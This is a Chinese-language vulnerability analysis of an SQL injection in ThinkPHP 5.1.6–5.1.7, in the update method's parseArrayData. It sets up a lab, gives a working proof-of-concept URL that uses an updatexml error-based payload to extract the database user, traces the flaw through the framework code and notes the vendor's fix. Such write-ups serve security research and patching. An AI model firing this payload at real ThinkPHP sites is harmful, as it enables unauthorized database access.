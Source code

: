 # 5.1.6 <= Thinkphp <= 5.1.7（非最新的 5.1.8 版本也可利用）

### 一、漏洞简介

本篇文章，将分析 ThinkPHP 中存在的 SQL注入 漏洞（ update 方法注入）。本次漏洞存在于 Mysql 类的 parseArrayData 方法中由于程序没有对数据进行很好的过滤，将数据拼接进 SQL 语句，导致 SQL注入漏洞 的产生

### 二、漏洞影响

5.1.6<=ThinkPHP<=5.1.7 (非最新的 5.1.8 版本也可利用)。

### 三、复现过程

漏洞环境

通过以下命令获取测试环境代码：


```
composer create-project --prefer-dist topthink/think tpdemo
```

将 composer.json 文件的 require 字段设置成如下：


```json
"require": {
    "php": ">=5.6.0",
    "topthink/framework": "5.1.7"
}
```

然后执行 composer update ，并将 application/index/controller/Index.php 文件代码设置如下：


```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $username = request()->get('username/a');
        db('users')->where(['id' => 1])->update(['username' => $username]);
        return 'Update success';
    }
}
```

在 config/database.php 文件中配置数据库相关信息，并开启 config/app.php 中的 app_debug 和 app_trace 。创建数据库信息如下：


```php
create database tpdemo;
use tpdemo;
create table users(
    id int primary key auto_increment,
    username varchar(50) not null
);
insert into users(id,username) values(1,'mochazz');
```

**poc**


```
http://url:8000/index/index/index?username[0]=point&username[1]=1&username[2]=updatexml(1,concat(0x7,user(),0x7e),1)^&username[3]=0
```

访问链接，即可触发 SQL注入漏洞 。（没开启 app_debug 是无法看到 SQL 报错信息的）

![](images/15893481530902.png)


漏洞分析

![](images/15893481580062.png)


首先在官方发布的 5.1.9 版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其 commit 记录，发现其删除了 parseArrayData 方法，这处 case 语句之前出现过 insert 注入，所以比较可疑。

![](images/15893481642539.png)


接着我们直接跟着上面的攻击 payload 来看看漏洞原理。首先， payload 数据经过 ThinkPHP 内置方法的过滤后（不影响我们的 payload ），直接进入了 Query 类的 update 方法，该方法调用了 Connection 类的 update 方法，该方法又调用了 $this->builder 的 insert 方法，这里的 $this->builder 为 \think\db\builder\Mysql 类，该类继承于 Builder 类，代码如下：

![](images/15893481709396.png)


在 Builder 类的 update 方法中，调用了 parseData 方法。这个方法中的 case 语句之前存在 SQL注入漏洞 ，现已修复，然而却多了 default 代码段，而这段代码也是在新版本中被删除的。

![](images/15893481768218.png)


我们跟进到 parseArrayData 方法，发现其中又将可控变量进行拼接，其变量来源均来自用户输入。之后的过程就和之前的 insert 注入一样，用 str_replace 将变量填充到 SQL 语句中，最终执行，导致 SQL注入漏洞 。

![](images/15893481834280.png)


上面 第15行 的 $result 相当于 $a('$b($c)') 其中 $a、$b、$c 均可控。最后形成的 SQL 语句如下：


```sql
UPDATE `users`  SET `username` = $a('$b($c)')  WHERE  `id` = 1;
```

接着我们想办法闭合即可。我们令 $a = updatexml(1,concat(0x7,user(),0x7e),1)^ 、 $b = 0 、 $c = 1 ，即：


```sql
UPDATE `users` SET `username` = updatexml(1,concat(0x7,user(),0x7e),1)^('0(1)') WHERE `id` = 1
```

**漏洞修复**

官方修复方法比较暴力，直接将 parseArrayData 方法删除了。

![](images/15893482104971.png)


**攻击总结**

最后，再通过一张攻击流程图来回顾整个攻击过程。

![](images/15893482191088.png)


参考链接

https://github.com/Mochazz/ThinkPHP-Vuln